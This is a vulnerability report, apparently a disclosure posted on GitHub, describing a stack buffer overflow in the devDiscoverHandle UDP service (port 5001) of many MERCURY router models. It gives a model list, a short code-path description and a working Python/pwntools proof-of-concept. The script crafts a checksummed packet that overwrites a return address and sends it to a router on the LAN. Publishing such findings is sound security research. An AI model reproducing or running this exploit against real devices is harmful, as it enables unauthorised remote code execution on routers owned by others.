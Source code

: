 # MERCURY Router Vulnerability Report

MERCURY router have a stack overflow issue in `devDiscoverHandle` server.

Any user can get remote code execution through LAN, this vulnerability currently affects latest M, D, B series, including M6G, D12A, B2, MIAP300L, D126, MCAP1200GP, MIAP300D, MWB201, D121G, MWB505, MIAP301D, B5, MIAP300P, M9G, MCAP1200GD, D12, D12B, MWB201S, MIAP303P, MW310RE, MIAP301P, D196G, MW300RE, D19, etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability Description

This vulnerability happen when devDiscoverHandle receive data by using `recvfrom` from `udp port 5001`.Then enter the `protocol_handler`->`parse_advertisement_frame`->`copy_msg_element`.In the function of `copy_msg_element` we can control `a1` and `a3` that It lead to a stack buffer overflow to execute arbitrary code.

![1](devDiscoverHandle/1.png)
![2](devDiscoverHandle/2.png)
![3](devDiscoverHandle/3.png)
![4](devDiscoverHandle/4.png)

## PoC

```python
import sys
import struct
import requests
from pwn import *
from time import sleep


udp_data_addr = 0x0419680

def fix_checksum(data):
    checksum = 0
    for off in range(0, len(data), 2):
        checksum += u16(data[off:off+2])
    checksum &= 0xffffffff
    while True:
        if (checksum >> 0x10) == 0:
            break
        checksum = (checksum & 0xffff) + (checksum >> 0x10)
    checksum &= 0xffff
    return p16(0xffff - checksum)

context.endian='little'

magic = b'\x01\x02\x0e\x00\xe1\x2b\x83\xc7'

gadget1 = p32(udp_data_addr + 0x300)
pad2 = b'poc'.ljust(750-0x10, b'\x00') + gadget1

context.endian='big'
tmp = b'\x00\x05' + p16(len(pad2)) + pad2

checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload2 = magic + checksum + p16(len(tmp)) + b'\x00\x00' + tmp

assert(len(payload2) < 0x300)

print('')
print("[*] Sending payload2")
udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload2,('192.168.3.28',5001))
udp.close()
sleep(1)
print("[+] Success")

```

